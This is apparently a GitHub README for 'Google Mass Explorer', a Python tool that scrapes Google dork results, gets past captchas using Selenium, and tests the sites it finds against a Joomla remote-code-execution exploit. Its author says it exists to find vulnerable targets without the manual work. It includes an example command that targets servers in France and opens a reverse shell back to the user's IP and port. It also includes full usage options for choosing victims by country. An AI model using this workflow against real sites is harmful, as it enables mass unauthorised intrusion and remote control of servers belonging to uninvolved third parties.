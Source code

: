 [+] Google Mass Explorer
This is a automated robot for google search engine.

Make a google search, and parse the results for a especific exploit you define.
The options can be listed with --help parameter.

Intro:
This project is a main project that i will keep upgrading when new exploits are published. They idea is use google search engine to find vulnerable targets, for specific exploits. The exploits parsers will be concentrated in google_parsers module. So when you make a search, you can choose explicit in "--exploit parser" argument, a especific exploit to the robot test if is the targets are vulnerable for that or not.
*** Is very important you use the right dork for the specific exploit.

The google parsers module (google_parsers.py) is the file that i will keep upgrading. For this version i'm putting just the joomla cve exploit. I have a wordpress bot too, but the ideia is you make your own parsers =))) If you have difficul to make, just send me the exploit and we make together =))

I make this google explorer because i'm very busy, and take to much time to search for targets in google manually. So I use a automated framework (Selenium) to make a robot to search for targets for me ;)) The problem using other libs and modules, is the captcha from google, and using Selenium, you can type the captcha when it is displayed, and the robots keeps crawling with no problem =)) This was the only way i find out to "bypass" this kind of protection... After it work, i decide to publish to everyone.

Basictly, how the robot works:
1 - Make a google search
2 - Parse the from each page results
3 - Test if each target is vulnerable for a specific exploit.

Requiriments:
-----> !!!!!! PYTHON 3  !!!!!! <------ THIS PROJECT IS ONLY FOR PYTHON 3 !!!!!!! 
The requirements is in requirements.txt file, you should install what is listed on it with: 
$ sudo pip install -R requirements.txt

These are some exemples that you can use, and make your own:

python3 google_explorer.py --dork="site:*.com inurl:index.php?option=" --browser="chrome" --exploit_parser="joomla_15_12_2015_rce" --revshell="MY_PUBLIC_IP" --port=4444 --google_domain="google.com" --location="França" --last_update="no último mês"

On this exemple, im looking for servers in France, vulnerables to joomla RCE, using google.com domain as google search (they are listed in google_doomais.txt file), with last update on last month.

All these options are possible to any language, it will depends only in what google use for syntax for your country..

I have some old videos on my channel on youtube showing how it works, so take a look at the description of the olders projects in github if you need some video exemples ;))


These are the current options for this project:

Usage:

    google_explorer.py --dork=<arg> --browser=<arg> [--exploit_parser=<arg>] [--language=<arg>]
                                                    [--location=<arg>]       [--last_update=<arg>]
                                                    [--revshell=<arg>]       [--port=<arg>]
                                                    [--google_domain=<arg>]

    google_explorer.py --help
    google_explorer.py --version

Options:

    -h --help                                Open help menu
    -v --version                             Show version

Required options:

    --dork='google dork'                     your favorite g00gle dork :)
    --browser='browser'                      chrome
                                             chromium


Optional options:

    --language='page language'               Portuguese
                                             English
                                             Arabic
                                             Romanian
                                             ...
                                             ...
    
    --location='server location'             Brazil
                                             Mauritania
                                             Tunisia
                                             Marroco
                                             Japan
                                             ...
                                             ...
    
    --last_update='page last update'         anytime
                                             past 24 hours
                                             past week
                                             past month
                                             past year

    --exploit_parser='Name or CVE exploit'   joomla_15_12_2015_rce
                                             generic_parser

    --revshell='IP'                          public ip for reverse shell
    --port='PORT'                            port for back connect

    --google_domain='google domain'          google domain to use on search. Ex: google.co.uk







